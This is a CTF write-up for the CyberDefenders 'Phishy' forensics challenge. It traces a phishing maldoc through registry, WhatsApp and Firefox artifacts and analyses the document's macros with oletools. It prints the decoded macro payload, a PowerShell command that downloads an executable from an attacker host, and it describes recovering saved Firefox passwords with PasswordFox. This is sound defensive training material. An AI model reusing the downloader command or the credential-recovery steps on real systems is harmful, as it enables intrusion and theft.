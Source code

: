 ```yaml
---
title: CyberDefenders Writeup  Phishy
date: 2022-09-05 16:46:09
tags:
cover: https://cyberdefenders.org/media/terraform/Phishy/phishy.png
categories:
- [CyberDefenders]
---
```


This CTF challenge is about retrieving data from a disk image, and analyzing a maldoc using oledump.
The maldoc download a malware in our victim personal computer! Let's figure out what is going on!

# Challenge Information 


+++info Description

A company’s employee joined a fake iPhone giveaway. Our team took a disk image of the employee's system for further analysis. As a security analyst, you are tasked to identify how the system was compromised.
+++

Challenge Link & Author 

{% links %}
- site: Challenge Link 
  url: https://cyberdefenders.org/blueteam-ctf-challenges/60
  desc: CyberDefenders - Phishy 
  image: https://cyberdefenders.org/static/img/cyberdefenders-logo-white.png
  color: "#2296fd"
- site: Author - SemahBA
  desc: SemahBA Twitter Profile
  url: https://twitter.com/BenaliSemah
  image: https://pbs.twimg.com/profile_images/1358429186348711936/QRHPcCVi_400x400.jpg
  color: "#de2336"

{% endlinks %}
# Walkthrough 
I use WSL, FTK imager and Registry Explorer

> 1- What is the hostname of the victim machine?

![](https://i.imgur.com/UlU40CE.png)
Let's check `SYSTEM\ControlSet001\Control\ComputerName\ComputerName` registry key 
![](https://i.imgur.com/bUMRhhs.png)

Answer:  WIN-NF3JQEU4G0T

> 2- What is the messaging app installed on the victim machine?

![WhatsApp](https://i.imgur.com/vE2xpqz.png )
Answser: WhatsApp

> 3- The attacker tricked the victim into downloading a malicious document. Provide the full download URL.

WhatsApp has a database that stores the messages and discussion. Let's check `\Users\Semah\AppData\Roaming\WhatsApp`.We find a folder called `Databases` that contains a `db` that can be opened using `DB Browser for SQLite`. The messages are stored in `msgstore.db`
![](https://imgur.com/SFlAYTD.png)
We can open this db file using `DB Browser` and check the `legacy_available_messages_view` table and we will a discussion about IPhone 12 special edition giveaway 
![](https://imgur.com/EGZVAxH.png)
Answer:  http://appIe.com/IPhone-Winners.doc

> 4- Multiple streams contain macros in the document. Provide the number of the highest stream.

The victim download the word document file. You can find it on `Semah\Downloads` folder
Let's export it from FTK imager and use `oledump` to check the streams in the document
We find `Macros/VBA/iphoneevil` the highest stream 
```bash command line prompt
Raf²@4n6nk8s:~$ oledump IPhone-Winners.doc                                                                                       
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      8473 '1Table'
  5:       501 'Macros/PROJECT'
  6:        68 'Macros/PROJECTwm'
  7:      3109 'Macros/VBA/_VBA_PROJECT'
  8:       800 'Macros/VBA/dir'
  9: M    1170 'Macros/VBA/eviliphone'
 10: M    5581 'Macros/VBA/iphoneevil'
```
Answer: 10 

Let's do some analysis on the macro and the malicious document using the `oletools` 

```bash command line prompt
Raf²@4n6nk8s:~$ olevba IPhone-Winners.doc --deobf
olevba IPhone-Winners.doc --deobf                                                                                 ─╯
XLMMacroDeobfuscator: pywin32 is not installed (only is required if you want to use MS Excel)
olevba 0.60.1 on Python 3.10.4 - http://decalage.info/python/oletools
===============================================================================
FILE: IPhone-Winners.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO eviliphone.cls
in file: IPhone-Winners.doc - OLE stream: 'Macros/VBA/eviliphone'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
```
Scrolling a bit and we find a VBA string variable from the macro that contain base64 cipher, the macro try to execute the decoded 
ٍ![](https://imgur.com/bvrf9oR.png)
OK let's decode it and check what the attacker want to do ! 
```bash command line prompt
raf²@4n6nk8s:~$ echo -n "aQBuAHYAbwBrAGUALQB3AGUAYgByAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwBhAHAAcABJAGUALgBjAG8AbQAvAEkAcABoAG8AbgBlAC4AZQB4AGUAJwAgAC0ATwB1AHQARgBpAGwAZQAgACcAQwA6AFwAVABlAG0AcABcAEkAUABoAG8AbgBlAC4AZQB4AGUAJwAgAC0AVQBzAGUARABlAGYAYQB1AGwAdABDAHIAZQBkAGUAbgB0AGkAYQBsAHMA" | base64 -d

invoke-webrequest -Uri 'http://appIe.com/Iphone.exe' -OutFile 'C:\Temp\IPhone.exe' -UseDefaultCredentials
```
Wow! The macro try to run an obfuscated `powershell` command that download an executable from `http://appIe.com/Iphone.exe` and save it as  `C:\Temp\IPhone.exe`


> 5- The macro executed a program. Provide the program name?

Answer: Powershell

> 6- The macro downloaded a malicious file. Provide the full download URL.

Answer: http://appIe.com/Iphone.exe

> 7- Where was the malicious file downloaded to? (Provide the full path)

Answer:  C:\Temp\IPhone.exe

> 8- What is the name of the framework used to create the malware?

I am sure that Metasploit is the framework. But let's make it like we get the points without guessing the answer! OK dude upload the malicious file downloaded to our love `virustotal` 
![](https://imgur.com/BKPJ37M.png)

Just google `Meterpreter` and you'll find that Meterpreter is a Metasploit attack payload that provides an interactive shell

Ok dude don't search ! go to `COMMUNITY` tab in `virustotal` and you'll find comments. You'll find a metasploit payload detected ! 

![](https://imgur.com/xuOEWiC.png)

Answer: Metasploit

> 9- What is the attacker's IP address?

OK! Now we know that the malicious document download a binary! Of course this binary is a malware.
We need to know what is the attacker's IP address. So let's do some dynamic analysis. We can do it using either `any.run` or `hybrid-analysis`. I will use it both of them just for fun !! Just upload the binary `IPhone.exe` and check the connections !

ٍ![](https://imgur.com/w04BlMl.png "Using app.run.any")
ٍ![](https://imgur.com/wNJKnce.png "Using HYBRID ANALYSIS")

Answer: 155.94.69.27

> 10- The fake giveaway used a login page to collect user information. Provide the full URL of the login page?

We find firefox installed in the victim device, Mozilla Firefox browsers stores his history and cookies in `AppData\Roaming\Mozilla\Firefox\`. We can inspect it using SQLite Browser.
The most important db file is `places.sqlite`. Inspect it and open the `moz_places` database table and check the history of the victim !
![](https://imgur.com/qbtAcRf.png)

Answer:  http://appIe.competitions.com/login.php

> 11- What is the password the user submitted to the login page?

There is a tool called `Password Fox` that will resolve our problem here !
PasswordFox is a small password recovery tool that allows you to view the user names and passwords stored by Mozilla Firefox Web browser.
Download it from [here](https://www.nirsoft.net/utils/passwordfox.html)

![](https://imgur.com/pM1lfwD.png "Here is the password")

Answer: GacsriicUZMY4xiAF4yl

